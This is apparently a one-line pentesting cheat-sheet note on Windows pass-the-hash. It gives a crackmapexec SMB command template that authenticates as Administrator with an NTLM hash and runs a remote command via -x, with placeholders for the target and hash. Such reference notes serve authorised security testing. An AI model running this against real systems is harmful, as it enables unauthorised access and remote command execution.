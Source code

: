 ------------
- tags: #passthehash #windows #crackmapexec 
--------

crackmapexec smb x.x.x.x -u Administrator -H "hash NTLM" -x ""





















